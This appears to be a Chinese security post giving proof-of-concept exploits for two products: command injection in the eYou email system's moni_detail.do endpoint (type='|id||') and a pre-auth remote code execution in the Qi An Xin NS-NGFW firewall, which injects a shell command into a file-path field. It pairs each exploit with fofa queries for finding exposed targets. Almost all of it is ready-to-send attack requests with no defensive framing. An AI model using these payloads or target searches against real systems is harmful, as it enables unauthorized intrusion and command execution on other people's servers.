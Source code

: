 fofa 语法
-------

```
app="亿邮电子邮件系统"
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZRQ64iajKicfUt7iaTzfANJcHtZ0b2hSJM5K23aMrawZxEsRHREBtbGdmw/640?wx_fmt=png)

poc  

------

```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 12
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

type='|id||'
```

这里我是写的 xray 自定义 poc 跑的，方便复现

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZ3uuopnjjGQbuOqhd6SdP8xyI4vSm9G4hZuuRkOtu2LZvrv3ib4qHOTA/640?wx_fmt=png)

奇安信 NS-NGFW 网康防火墙 前台 RCE

fofa 搜索
-------

```
网康下一代防火墙
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZg1TdQypQcxZH4gK34BBqy7cUjBAibmXTEYwSoDB84LfZcKnxp3c9ibEg/640?wx_fmt=png)

poc  

------

```
POST /directdata/direct/router HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0
Content-Length: 265
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

{
    "action": "SSLVPN_Resource", 
    "method": "deleteImage", 
    "data": [
        {
            "data": [
                "/var/www/html/d.txt;id > /var/www/html/1.txt"
            ]
        }
    ], 
    "type": "rpc", 
    "tid": 17
}
```
